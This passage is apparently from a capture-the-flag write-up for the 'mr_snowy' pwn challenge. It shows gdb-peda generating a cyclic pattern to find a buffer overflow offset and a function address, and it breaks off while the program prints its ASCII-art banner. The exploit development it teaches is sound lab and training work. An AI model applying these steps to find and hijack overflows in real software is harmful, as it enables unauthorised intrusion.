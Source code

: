 <img src="img/duar.jpg" alt="duar" style="width:200px;"/>

This is the one :'). Let's use gdb to find the offset and get the function address.

First, we could use gdb to create a pattern.
```
$ gdb -q ./mr_snowy
Reading symbols from ./mr_snowy...
(No debugging symbols found in ./mr_snowy)
gdb-peda$ pattern create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
```

Next, run the program and send the pattern.
```
gdb-peda$ r
Starting program: /home/kali/Documents/HTB/cyber santa/pwn_mr_snowy/mr_snowy 

                                                                                                                 
[Location]: 🎅 Santa's garden..                                                                                  
                                                                                                                 
   _____    *  *  *  *  *     *  *                                                                               
   |   |        *   *    *   * **                                                                                
  _|___|_     *  *  *   *  **  *                                                                                 
  ( 0 0 )   *   *  *   * *   * *   *                                                                             
 (   *   )    *   *    *    *   * *                                                                              
(    *    )      *  *   *  *   *  *                                                                              
```